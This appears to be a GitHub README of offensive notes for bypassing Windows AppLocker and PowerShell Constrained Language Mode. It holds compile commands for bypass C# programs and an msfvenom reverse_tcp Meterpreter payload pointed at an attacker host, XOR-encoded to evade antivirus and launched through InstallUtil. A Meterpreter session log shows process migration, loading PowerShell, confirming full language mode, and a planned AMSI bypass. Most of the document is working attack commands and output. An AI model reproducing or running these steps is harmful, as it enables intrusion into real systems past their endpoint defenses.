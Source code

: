 # clm and applocker bypass
# FOR Linux Compilation
```bash
sudo apt install mono-complete
mcs -r:System.Configuration.Install.dll applocker2.cs
```

# For windows Compilation

```bash
c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:"C:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll" C:\users\dhanush\Desktop\bypassclm.cs
C:\Users\dhanush\Desktop>c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe c:\users\dhanush\Desktop\program3.cs
```

# ** HOST it in the Linux attacker machine**

# ✔️ ** Use only windows/meterpreter/reverse_tcp payload in this ,x64 payloads dont work with InstallUtil**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.130.136 LPORT=8999 -f raw > p.bin
python3 xorenc.py pa.bin
```

# **Have 2 sessions first create a process to migrate,and then use load powershell from meterpreter in the session ,dont spawn a new process**
```bash
execute -f notepad -H
Process 9252 created.
meterpreter > 
[*] 192.168.130.154 - Meterpreter session 10 closed.  Reason: Died

use 11
[-] Invalid module index: 11
msf6 exploit(multi/handler) > sessions -i 11
[*] Starting interaction with 11...

meterpreter > migrate 9252
[*] Migrating from 4952 to 9252...
[*] Migration completed successfully.
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > help

powershell_execute $ExecutionContext.SessionState.LanguageMode
[+] Command execution completed:
FullLanguage

meterpreter > powershell_shell
PS > $ExecutionContext.SessionState.LanguageMode
FullLanguage
PS > whoami
desktop-h4e2l8l\dhanush
PS > 
```

# ✔️ Commands
```bash
execute -f notepad -H #process gets killed because of antivirus
sessions -i 1 #New second Process
migrate 9525 #migrate to the newly created process from the last session
load powershell
powershell_execute $ExecutionContext.SessionState.LanguageMode
powershell_shell

#then we can run my amsi payload.
